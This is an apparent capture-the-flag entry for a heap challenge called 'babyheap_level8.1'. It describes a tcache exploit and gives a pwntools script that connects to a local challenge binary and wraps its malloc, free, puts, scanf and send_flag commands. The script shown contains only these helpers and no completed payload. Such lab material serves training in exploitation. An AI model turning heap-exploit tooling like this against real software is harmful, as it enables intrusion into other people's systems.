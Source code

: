 > Leverage TCACHE exploits to pass a validation check.

## Write-up

参见 [Level 8.0](#level-80)。

## Exploit

```python
#!/usr/bin/env python3

from pwn import (
    args,
    context,
    flat,
    p32,
    process,
    raw_input,
    remote,
)


FILE = "/challenge/babyheap_level8.1"
HOST, PORT = "localhost", 1337

context(log_level="debug", binary=FILE, terminal="kitty")

elf = context.binary


def launch():
    global target
    if args.L:
        target = process(FILE)
    else:
        target = remote(HOST, PORT)


def malloc(idx, size):
    target.sendlineafter(b": ", b"malloc")
    target.sendlineafter(b"Index: ", str(idx).encode("ascii"))
    target.sendlineafter(b"Size: ", str(size).encode("ascii"))


def free(idx):
    target.sendlineafter(b": ", b"free")
    target.sendlineafter(b"Index: ", str(idx).encode("ascii"))


def puts(idx):
    target.sendlineafter(b": ", b"puts")
    target.sendlineafter(b"Index: ", str(idx).encode("ascii"))


def scanf(idx, data):
    target.sendlineafter(b": ", b"scanf")
    target.sendlineafter(b"Index: ", str(idx).encode("ascii"))
    target.sendline(data)


def send_flag(secret):
    target.sendlineafter(b": ", b"send_flag")
    target.sendlineafter(b"Secret: ", secret)
```